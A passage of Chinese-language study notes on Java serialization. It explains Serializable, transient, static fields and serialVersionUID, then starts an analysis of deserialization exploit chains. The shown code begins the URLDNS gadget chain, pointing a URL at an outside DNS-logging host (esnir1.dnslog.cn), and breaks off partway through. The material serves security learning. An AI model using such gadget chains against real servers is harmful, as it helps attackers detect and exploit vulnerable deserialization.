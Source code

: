 ![img5](img/deserialize/img5.png)





#### 特点/应用场景

- 常用与服务器之间的数据传输,序列化成文件,反序列化读取数据
- 常用使用套接字流在主机之间传递对象
- 需要序列化的文件必须实现Serializable接口,用来启用序列化功能
- 在反序列化时,如果和序列化的版本号不一致,无法完成反序列化

补充

- 不需要序列化的数据可以修饰成static,原因:static资源属于类资源,不随着对象被序列化输出

- 不需要序列化的数据也可以被修饰成transient(临时的),只在程序运行期间在内存中存在,不会被序列化持久保存

- 每一个被序列化的文件都有一个唯一的id,如果没有添加此id,编译器会自动根据类的定义信息计算产生一个

- 读写顺序一致

- 内部属性的类型也需要实现 Serializable 接口

- 具有继承性,父类可以序列化那么子类同样可以（递归）

  

### Java反序列化漏洞利用链条分析

#### URLDNS链

```java
package com.hillstonenet;

import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> hash = new HashMap<URL,Integer>();
        URL url = new URL("http://esnir1.dnslog.cn");
        //先反射获取URL类中的hashcode属性
```